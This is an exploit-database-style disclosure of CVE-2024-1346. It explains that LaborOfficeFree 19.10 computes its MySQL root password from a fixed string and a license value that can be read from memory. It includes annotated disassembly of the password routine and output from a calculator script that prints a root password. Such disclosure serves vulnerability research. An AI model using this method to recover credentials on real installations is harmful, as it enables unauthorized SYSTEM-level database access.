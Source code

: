 # CVE-2024-1346
Weak MySQL database root password in LaborOfficeFree affects version 19.10. This vulnerability allows an attacker to calculate the root password of the MySQL database used by LaborOfficeFree using two constants.

### Exploit Title: LaborOfficeFree 19.10 MySQL Root Password Calculator - CVE-2024-1346
### Google Dork: N/A
### Date: 09/02/2023
### Exploit Author: Peter Gabaldon - https://pgj11.com/
### Vendor Homepage: https://www.laborofficefree.com/
### Software Link: https://www.laborofficefree.com/#plans
### Version: 19.10
### Tested on: Windows 10
### CVE : CVE-2024-1346
### Description: LaborOfficeFree installs a MySQL instance that runs as SYSTEM and calculates the MySQL root password based on two constants. Each time the program needs to connect to MySQL as root, it employs the reverse algorithm to calculate the root password. This issue has been tested on version 19.10 exclusively, but allegedly, versions prior to 19.10 are also vulnerable.

```
	After installing LaborOfficeFree in testing lab and revesing the backup process, it is possible to determine that it creates a "mysqldump.exe" process with the root user and the password being derived from the string "hola" concated with "00331-20471-98465-AA370" (in this case). This appears to be the license, but it is different from the license shown in the GUI dashboard. This license has to be extracted from memory. From example, attaching a debugger and breaking in the mysqldump process (for that, admin rights are NOT needed).

    Also, the app checks if you are an admin to perform the backup and fails if the program is not running as adminsitrator. But, this check is not effective, as it is actually calling mysqldump with a derived password. Thus, administrator right are not needed. 

    Here is the disassembly piece of the procedure in LaborOfficeFree.exe responsible of calculating the root password.

    00506548 | 53                       | push ebx                                | Aqui se hacen el XOR y demas que calcula la pwd :)
    00506549 | 56                       | push esi                                |
    0050654A | A3 7CFD8800              | mov dword ptr ds:[88FD7C],eax           | eax:"hola00331-20471-98465-AA370"
    0050654F | 0FB7C2                   | movzx eax,dx                            | eax:"hola00331-20471-98465-AA370"
    00506552 | 85C0                     | test eax,eax                            | eax:"hola00331-20471-98465-AA370"
    00506554 | 7E 2E                    | jle laborofficefree.506584              |
    00506556 | BA 01000000              | mov edx,1                               |
    0050655B | 8B1D 7CFD8800            | mov ebx,dword ptr ds:[88FD7C]           |
    00506561 | 0FB65C13 FF              | movzx ebx,byte ptr ds:[ebx+edx-1]       |
    00506566 | 8B31                     | mov esi,dword ptr ds:[ecx]              |
    00506568 | 81E6 FF000000            | and esi,FF                              |
    0050656E | 33DE                     | xor ebx,esi                             |
    00506570 | 8B1C9D A40B8800          | mov ebx,dword ptr ds:[ebx*4+880BA4]     |
    00506577 | 8B31                     | mov esi,dword ptr ds:[ecx]              |
    00506579 | C1EE 08                  | shr esi,8                               |
    0050657C | 33DE                     | xor ebx,esi                             |
    0050657E | 8919                     | mov dword ptr ds:[ecx],ebx              |
    00506580 | 42                       | inc edx                                 |
    00506581 | 48                       | dec eax                                 | eax:"hola00331-20471-98465-AA370"
    00506582 | 75 D7                    | jne laborofficefree.50655B              |
    00506584 | 5E                       | pop esi                                 |
    00506585 | 5B                       | pop ebx                                 |
    00506586 | C3                       | ret                                     | 

    The result number from this procedure is then negated (bitwise NOT) and casted as a signed integer. Note: the address 0x880BA4 stores a constant array of 256 DWORDs entries.

    005065C8 | F755 F8                  | not dword ptr ss:[ebp-8]                |


	Running this script produces the root password of the LaborOfficeFree MySQL.

    C:\Users\***\Desktop>python myLaborRootPwdCalculator.py
    1591779762
    
    C:\Users\***\Desktop>
```
